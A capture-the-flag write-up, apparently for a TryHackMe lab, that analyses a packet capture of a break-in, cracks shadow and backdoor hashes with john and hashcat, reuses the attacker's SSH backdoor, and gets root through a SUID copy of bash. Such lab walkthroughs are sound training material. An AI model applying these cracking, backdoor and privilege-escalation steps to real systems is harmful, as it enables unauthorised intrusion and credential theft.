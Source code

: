 # Forensics - Analyse the PCAP 
download pcap file and open it with wireshark:
1. What was the URL of the page they used to upload a reverse shell?

Upload something on web -> HTTP **POST** request. Check for post request to find the anwser.

2. What payload did the attacker use to gain access?

You can use wireshark to export object including files such as .txt .zip and .php. In this case we will export reverse shell that the attacker uploaded onto Overpass server.


In wireshark. Go to File -> Export Objects -> HTTP and select packet 14 which is the packet that include the reverse shell.

![upload.php](../pic/Screenshot%202020-08-19%20at%2015.47.18.png)

save the flie, open it with ur fav text editor and grab the payload.

1. What password did the attacker use to privesc?

From the last task we know that the reverse shell will connect back to port number 4242. Let start with filter out unnecessary packet by search for `tcp.port == 4242`


Note that the reverse shell is establised between attacker's port **4242** and victim's port **57680**. let imporve our search a bit: `tcp.port == 4242 || tcp.port == 57680`. We can now see the flow reverse shell tracffic. Take your time and try to understand it.


At some point, The attacker try to log into James account by executing `su james`. As we already know, you will need to enter user's password after executing the mentioned command. Find out what James's password

**Hint**:
<details>follow tcp stream</details>

4. How did the attacker establish persistence?

check the tcp stream and you will find out
5. Using the fasttrack wordlist, how many of the system passwords were crackable?

copy `/etc/shadow` to ur kali. now run john to crack it using `/usr/share/wordlists/fasttrack.txt`

```console
kali@kali:~/THM/Overpass$ sudo john -wordlist=/usr/share/wordlists/fasttrack.txt shadow.txt
kali@kali:~/THM/Overpass$ sudo john --show shadow.txt # check cracked password
```

# Research - Analyse the code 
clone backdoor from github by executing `git clone https://github.com/NinjaJc01/ssh-backdoor`
1.  What's the default hash for the backdoor? 

check for `hash` in `main.go`

2. What's the hardcoded salt for the backdoor?

check function `passwordHandler`

3. What was the hash that the attacker used? - go back to the PCAP for this!

go back to wireshark and check tcp stream. when the attacker execute `backdoor`
4. Crack the hash using rockyou and a cracking tool of your choice. What's the password?

use [hash identifier](https://www.onlinehashcrack.com/hash-identification.php) to indentify the hash. We will use hashcat to crack the hash. check hashcat [example hash](https://hashcat.net/wiki/doku.php?id=example_hashes) to find out which the hash+salt format for hash type we got from hash identifier.

```console
$ hashcat -m <operation mode> -a 0 -o crack.txt 'passwordhash:salt' /usr/share/wordlists/rockyou.txt --force
```
# Attack - Get back in! 

From `main.go` we know that:
1. the backdoor is run as over `ssh`
2. run on port 2222
3. password to blackdoor

so what are we waiting for? just ssh `into` it
```console
kali@kali:~/THM/Overpass$ ssh $IP -p 2222
james@overpass-production:/home/james/ssh-backdoor$ cd ..
james@overpass-production:/home/james$ ls
ssh-backdoor  user.txt  www
```
grab user flag !!

I try to run `sudo -l` using the james's password which we recived from .pcap file before. It didnt work, Seem like the attacker changed it. Next step is looking for `SUID`, if you dont know what `SUID` is, pls do some research by youself. Anyway, I use suid3num.py to enumerate `SUID`. You can find the tool on github [link](https://github.com/Anon-Exploiter/SUID3NUM). Tranfer the script to victim server and run it
```
[~] Custom SUID Binaries (Interesting Stuff)
------------------------------
/home/james/.suid_bash
------------------------------
```
let investigate `.suid_bash`

```console
james@overpass-production:/home/james$ file .suid_bash 
.suid_bash: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=12f73d7a8e226c663034529c8dd20efec22dde54, stripped
james@overpass-production:/home/james$ ./.suid_bash 
.suid_bash-4.4$ whoami
james
```
seem like the script is a binary file which spawn a bash shell when u run it. I wonder if it just a normalt bash shell but with suid like the name of script. let check out
```console
james@overpass-production:/home/james$ ./.suid_bash -help
GNU bash, version 4.4.20(1)-release-(x86_64-pc-linux-gnu)
Usage:	./.suid_bash [GNU long option] [option] ...
	./.suid_bash [GNU long option] [option] script-file ...
GNU long options:
	--debug
	--debugger
	--dump-po-strings
```
Bing Go!! it is just a copy/paste of `/bin/bash` but it is a suid file. Try to run `bash -help`, you will get the same output. so let check [GTFOBINs](https://gtfobins.github.io/gtfobins/bash/#suid). focus on `#suid` read and observe !


now let exlpoit it by run `-p`
```console
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# whoami
root
```

no go grab root flag.


I really enjoyed this room, if you dont know what to do next pls check room created by [NinjaJc01](https://tryhackme.com/p/NinjaJc01). I rooted many of his room and alway enjoy it.
